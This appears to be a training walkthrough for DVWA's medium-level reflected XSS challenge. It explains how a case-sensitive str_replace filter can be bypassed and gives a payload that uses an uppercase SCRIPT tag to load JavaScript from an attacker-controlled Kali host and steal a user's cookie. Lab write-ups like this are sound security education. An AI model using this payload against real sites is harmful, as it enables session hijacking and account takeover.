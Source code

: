 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2011:%20XSS%20(Reflected).md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

Let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssrsource.png" width="500">

Two things to note here:
<ul>
  <li>While we do see a header called "X-XSS-Protection", it's not as scary as we fear. The developer set this to "0", which means the header <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection" target="_blank">actually disables XSS filtering</a> instead of enabling it. Nice going, dev!</li>
  <li>The <b>name</b> variable gets subjected to a string replace function, which replaces all instances of <code>&#60;script&#62;</code> with <code>null</code>.</li>
</ul>

<h3><b>Crafting a New Exploit</b></h3>

So we know the header doesn't accomplish anything, so the crux of the exploit is avoiding the string replacement. 

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

It can't be that easy, can it? Since <code>str_replace()</code> looks for the literal string "<script>", all we need to do is vary the case a bit as follows:

<code>&#60;SCRIPT src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/SCRIPT&#62;</code>

Let's try it out!

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssrsuccess.png" width="500">

Cookie stolen and challenge complete!
